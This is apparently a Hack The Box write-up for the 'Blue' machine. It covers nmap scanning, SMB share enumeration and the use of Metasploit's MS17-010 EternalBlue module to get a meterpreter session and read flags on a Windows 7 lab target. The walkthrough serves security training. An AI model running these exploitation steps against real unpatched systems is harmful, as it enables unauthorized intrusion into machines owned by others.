 +++
title = "Blue"
description = "An easy rated Windows machine that demonstrates the critical vulnerability in Windows SMBv1, also known as MS17-010 or 'EternalBlue'."
tags = ["htb", "writeup", "cve", "metasploit", "eternalblue", "ms17-010", "smb"]
pubDate = 2024-08-01
cover = "/images/Blue.png"
toc = true
draft = false
+++

## Reconnaisance

Start out by running `nmap` as always.

![nmap](/images/blue-nmap.webp)

This gives us quite a few TCP ports open but the 5 digit ones we don't really care about. We're looking at the other three, 135, 139 and 445. Ports 139 and 445 are typically where Windows SMB is running. We can see in the host script results from `nmap` that this is a Windows 7 Professional 7601 Service Pack 1 machine.

_Coming to this machine in 2024, it's well known what the attack vector is (just given the name and from word of mouth about this particular box). But assuming I didn't know, the next step would be to Google exploits for this specific OS and Service Pack. Doing that, you'd easily find MS17-010_

![google](/images/blue-windows7-google-results.png)

Here is a brief [explanation](https://www.varonis.com/blog/smb-port) of the differences in the SMB ports.

## Enumeration

We could really just jump right to [exploitation](#exploitation) at this point but I did this on "Guided Mode" with a friend that at the time was still learning and this path has you enumerate SMB, so we will here too.

Using `smbclient` (or `crackmapexec`), we can easily list out the SMB Shares.

![smbclient](/images/blue-smbclient-list-shares.webp)

That's really it for enumerating SMB. We can see there's 5 shares. Now to exploiting this.

## Exploitation

Knowing what we know about the attack vector, we can start up `metasploit`. After it starts up, we can search for the exploit `ms17-010` and we get some good looking results.

![msfconsole](/images/blue-msf-search.webp)

We `use 2` since we know our target machine is Windows 7 and it sets the target for us.

```bash
set RHOSTS 10.129.70.139
set LHOST tun0
exploit
```

![msf-options](/images/blue-eternalblue-exploit-msf.webp)

_Yes, I put `execute` instead of `exploit`. Stop laughing at me._

Just like that we have a meterpreter session.

## Foothold

We can use some nifty meterpreter commands to get some information.

![getuid](/images/blue-msf-getuid.webp)

At this point, we own the system. We are the King of the castle and have full access. We can get the user and root flags from here.

![msf-user](/images/blue-exfil-user-flag.webp)

![msf-root](/images/blue-exfil-root-flag.webp)

## Conclusion

This machine is fun to do. It's quick, especially with Metasploit, and easy. It demonstrates how severe this MS17-010, EternalBlue, vulnerability really was and the damage it could/can do. After this vulnerability was released by [The Shadow Brokers](https://darknetdiaries.com/episode/53/) (after being stolen from the NSA), multiple malwares were created. The first notable being [WannaCry](https://darknetdiaries.com/episode/73/) ([Wikipedia](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)). The next notable would be [NotPetya](https://darknetdiaries.com/episode/54/), a variant of the [Petya](<https://en.wikipedia.org/wiki/Petya_(malware_family)>) malware which has been attributed to Russian hacking groups.
